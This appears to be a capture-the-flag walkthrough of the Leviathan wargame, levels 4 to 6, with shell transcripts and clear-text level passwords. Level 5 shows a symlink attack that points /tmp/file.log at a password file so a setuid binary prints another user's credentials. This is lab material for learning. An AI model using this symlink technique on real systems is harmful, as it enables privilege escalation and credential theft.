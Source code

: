 ####level 4 to level 5

* username = Leviathan4
* password = passwaor is in binary format so we have to convert it,"01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010"
              (Tith4cokei)

######Description, codes and the outputs
There is a trash directory. Navigate to it to find a binary aptly named “bin”. After running it, we see sets of binary code as output.

```
leviathan4@melinda:~$ ls -la
total 24
drwxr-xr-x   3 root root       4096 Nov 14  2014 .
drwxr-xr-x 167 root root       4096 Jul  9 16:27 ..
-rw-r--r--   1 root root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root root        675 Apr  9  2014 .profile
dr-xr-x---   2 root leviathan4 4096 Nov 14  2014 .trash
leviathan4@melinda:~$

leviathan4@melinda:~$ cd .trash/
leviathan4@melinda:~/.trash$ ls -la
total 16
dr-xr-x--- 2 root       leviathan4 4096 Nov 14  2014 .
drwxr-xr-x 3 root       root       4096 Nov 14  2014 ..
-r-sr-x--- 1 leviathan5 leviathan4 7425 Nov 14  2014 bin
leviathan4@melinda:~/.trash$

leviathan4@melinda:~/.trash$ ./bin
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010
leviathan4@melinda:~/.trash$
```

####level 5 to Level 6

* username = Leviathan5
* password = UgaoFee4li

######Description, codes and the outputs
 we have to exploit the binary by using using symbolic linking to a file we have permission of. When we run the binary in Leviathan5’s home directory, it appears to be attempting to read from a file in /tmp. 

```
leviathan5@melinda:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 167 root       root       4096 Jul  9 16:27 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan6 leviathan5 7634 Nov 14  2014 leviathan5
leviathan5@melinda:~$

leviathan5@melinda:~$ ./leviathan5
Cannot find /tmp/file.log
leviathan5@melinda:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@melinda:~$ ./leviathan5
UgaoFee4li
leviathan5@melinda:~$
```
